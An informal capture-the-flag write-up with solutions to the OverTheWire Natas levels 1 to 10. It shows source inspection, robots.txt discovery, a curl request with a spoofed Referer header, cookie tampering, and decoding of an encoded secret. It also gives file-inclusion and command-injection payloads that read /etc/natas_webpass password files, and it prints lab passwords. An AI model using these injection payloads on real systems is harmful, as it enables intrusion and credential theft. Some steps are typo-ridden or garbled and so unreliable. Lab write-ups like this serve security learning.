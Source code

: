 # Level 1
Solution:
after you open link, open inspector check html code there you can find password

# Level 2
So solution in this case is a bit hard to explain but basicly 
You should find an image tag like `<img src="file/pixel.png>` now you see that comes from database with this link `file/pixel.png` 
it means that you should you it as vulnerabilities to get key this is how:
`http://natas2.natas.labs.overthewire.org/files/`
there you find password for the next level

# Level 3
So get key from this problem we sould search for (google robots)[https://developers.google.com/search/docs/crawling-indexing/robots/create-robots-txt].
Bassicaly its `robots.txt` file that locks or allows access for all or a specific path to your domain
`http://natas3.natas.labs.overthewire.org/robots.txt` ---> here you get a hidden path `/s3cr3t/` and go to it

`http://natas3.natas.labs.overthewire.org/s3cr3t`--> key should be here

# Level 4
```
curl \                                                                                                                                                                               
  -H "Authorization: Basic $(echo -n 'natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ' | base64)" \
  -H "Referer: http://natas5.natas.labs.overthewire.org/" 
  http://natas4.natas.labs.overthewire.org/     

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK #your pass #key to next level
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
# Level 5
```Visiting the website returns the following text: “Access disallowed. You are not logged in”. The website should determine that we are logged in through a cookie. So, by opening the developer tools and going to the ‘Storage’ tab, we can see the ‘Cookies’ section. Here we find a cookie named ’loggedin’ with the value=0. Let’s try changing the value to 1 (by double-clicking on it) and refreshing the page.```

# Level 6 
if you take a look into source code that handles `input` you find something like this 
`include "includes/secret.inc"include "includes/secret.inc"` it means that it inludes another php file to get key from it,
and now we should do it manually `http://natas6.natas.labs.overthewire.org/index-source.html/include/secret.inc` its just a white/black screen 
check inspector and you find key

# Level 7 
Level 7 is bassically same as Level 6
  * take a look into source code
  * you will find something like this ` hint: password for webuser natas8 is in /etc/natas_webpass/natas8`
  * and go this link via page `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`

# Level 8 
Level 8 is same as level 6 but pin-code placed in the script you should decode it
```
 echo 3d3d516343746d4d6d6c315669563362 | xxd -r -p

==QcCtmMml1ViV3b #decode hash to bin

echo "==QcCtmMml1ViV3b" | rev #reverse

b3ViV1lmMmtCcQ

echo b3ViV1lmMmtCcQ== | base64 -d

oubWYf2kBq  #key   
```
# Level 9 
so solve this case we should use `comanline injection`
as you could see in source code that input value directly goes through db without any hiccups
`; cat /etc/natas_webpass/natas10 #`--> Key to next level

# Level 10 
Solution in this problem is use another method of injection
`.* cat /etc/natas_webpass/natas11`
